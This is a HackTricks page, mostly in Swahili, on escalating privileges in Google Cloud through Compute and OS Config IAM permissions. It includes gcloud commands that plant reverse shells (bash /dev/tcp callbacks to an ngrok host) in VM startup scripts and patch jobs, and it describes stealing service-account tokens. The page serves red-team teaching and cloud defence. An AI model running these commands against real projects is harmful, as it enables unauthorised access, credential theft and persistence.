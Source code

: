 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Kumbuka kwamba ili kufanya mashambulizi yote ya kupandisha hadhi yanayohitaji kubadilisha metadata ya mfano (kama kuongeza watumiaji wapya na funguo za SSH) **ni muhimu kuwa na ruhusa za `actAs` juu ya SA iliyoambatanishwa na mfano**, hata kama SA tayari imeambatanishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** taarifa za **metadata** za **mfano** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** mtumiaji **mpya mwenye** ruhusa za sudo. Hivyo, utaweza kuingia kupitia SSH kwenye mfano wowote wa VM na kuiba Akaunti ya Huduma ya GCP ambayo Mfano unatumia.\
Vikwazo:

* Kumbuka kwamba Akaunti za Huduma za GCP zinazotumika katika mifano ya VM kwa kawaida zina **wigo mdogo sana**
* Itabidi uwe **na uwezo wa kuwasiliana na** seva ya SSH ili kuingia

Kwa maelezo zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kufanya shambulizi hili kwa kuongeza skripti mpya za kuanzisha na kuanzisha upya mfano:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ruhusa hii inatoa **privilege sawa na ruhusa ya awali** lakini juu ya instances maalum badala ya mradi mzima. **Mizaha na mipaka sawa na ile ya sehemu ya awali inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya ruhusa itakuruhusu **kujipa jukumu na ruhusa za awali** na kupandisha privileges kwa kuzitumia.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Huta **kuwa na root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Utakuwa na **root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual yenye Akaunti ya Huduma iliyotolewa na kuiba tokeni** ya akaunti ya huduma kwa kufikia metadata ili kupandisha privileges kwake.

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** ruhusa unaweza kuunda [**kazi ya patch au uanzishaji**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kuhamasisha kwa upande katika mazingira na kupata utekelezaji wa msimbo kwenye instances zote za compute ndani ya mradi.

Kumbuka kwamba kwa sasa **huhitaji ruhusa `actAs`** juu ya SA iliyoambatanishwa na instance.

Ikiwa unataka kutumia hii kwa mikono, utahitaji kuunda ama [**kazi ya patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **au** [**uanzishaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Kwa kazi ya patch, kimbia: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Ili kupeleka usasishaji wa patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) inaweza kutumika zamani kwa ajili ya kutumia hii misconfiguration (lakini sasa haifanyi kazi).

**Mshambuliaji anaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya kompyuta.

### `compute.snapshots.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipatie ruhusa za ziada** kwa diski.

### Bypass Access Scopes

Kwa kufuata kiungo hiki utapata baadhi ya [**wazo za kujaribu kupita mipaka ya ufikiaji**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
